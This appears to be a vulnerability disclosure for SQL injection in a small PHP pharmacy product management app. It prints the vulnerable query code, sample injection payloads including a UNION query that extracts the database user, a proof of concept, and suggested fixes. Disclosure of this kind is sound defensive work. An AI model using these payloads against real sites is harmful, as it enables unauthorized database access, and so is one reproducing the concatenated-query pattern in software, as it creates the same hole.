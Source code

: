 

## Title: [sql-inject] in [Web-based Pharmacy Product Management System] <= [v1.0]

# **BUG_Author:** [yaklang. io, IRify, Yakit]

## Product Information
- **Vendor Homepage:** [link](https://www.sourcecodester.com/php/17883/web-based-product-alert-system.html)
- **Software Link:** [download-link](https://www.sourcecodester.com/sites/default/files/download/Senior%20Walter/product_expiry.zip)
- **Affected Version:** [<= v1.0]

- **BUG Author:** yaklang. io, IRify 

## Vulnerability Details
### Vulnerable Files
- `edit-product.php` 
- `edit-admin.php`

### Vulnerability Type
SQL Injection Vulnerability (CWE-89: SQL Injection)

### Root Cause
The code directly concatenates user input into SQL query strings without any parameterization or input validation, allowing attackers to inject malicious SQL code.

```php
// line:7 
$email=$_SESSION['login_email'] ;
$id= $_GET['id'];        

$stmt = $dbh->query("SELECT * FROM users where email='$email'");
$row_user = $stmt->fetch();

$stmt = $dbh->query("SELECT * FROM tblproduct where ID ='$id'");
$row_drug = $stmt->fetch();

// line:205
                   <img src="<?php echo $row_drug['photo'];  ?>" alt="drug image" width="178" height="154" id="logo-img">   
				    </p>
```

### Impact
- Unauthorized access to database information
- Potential exposure of sensitive information (such as user passwords)
- Possible database corruption or data manipulation


## Description
1. **Vulnerability Details:**
   - In the this php code, username parameter is directly concatenated into SQL statement
   - Both locations contain classic SQL injection vulnerabilities
   - No input validation or escaping mechanisms implemented

2. **Attack Vectors:**
   - Attackers can manipulate SQL query structure using special characters
   - Additional information can be extracted using UNION queries
   - Database information can be obtained through boolean-based blind injection
   - Error-based injection might reveal more information

3. **Attack Payload Examples:**
   sql: `"SELECT * FROM tblproduct where product_name='$name'"`
   ```sql
   ' or '1' = '1
   ' union select ... where '1'='1 
   .... 
   ```
## Code Scan 

this vulnerability find by [IRify](ssa.to) :
![image.png](https://s2.loli.net/2025/04/02/Zlbo7JGkPeVWOzH.png)



## Proof of Concept

this valnerability validation by [Yakit](https://www.yaklang.io/)

2. **Information Extraction:**
   ```sql
   ' union select 1,2,3,4,5,6,7,user() FROM information_schema.tables where '1'='1
   ```
This targets specific user information while maintaining the single-row result.
This data will return in html, we can see it `user()` in yakit html viewer 
![image.png](https://s2.loli.net/2025/04/08/tBYanhgZzcVlsPU.png)


![](https://s2.loli.net/2025/04/02/7rXjfBI831QxiYt.png)


## Suggested Repairs
1. Implement Prepared Statements

2. Input Validation

3. Security Recommendations
   - Implement principle of least privilege
   - Encrypt sensitive data storage
   - Implement WAF protection
   - Conduct regular security audits
   - Use ORM frameworks for database operations

## Additional Information
- Refer to OWASP SQL Injection Prevention Guide
- Consider using modern frameworks like MyBatis or Hibernate
- Implement logging and monitoring mechanisms
- References:
  - OWASP SQL Injection Prevention Cheat Sheet
  - CWE-89: SQL Injection
  - CERT Oracle Secure Coding Standard for Java

The severity of this vulnerability is HIGH, and immediate remediation is recommended as it poses a serious threat to the system's data security.

Mitigation Timeline:
- Immediate: Implement prepared statements
- Short-term: Add input validation
- Long-term: Consider migrating to an ORM framework

This vulnerability requires immediate attention due to its potential for significant data breach and system compromise.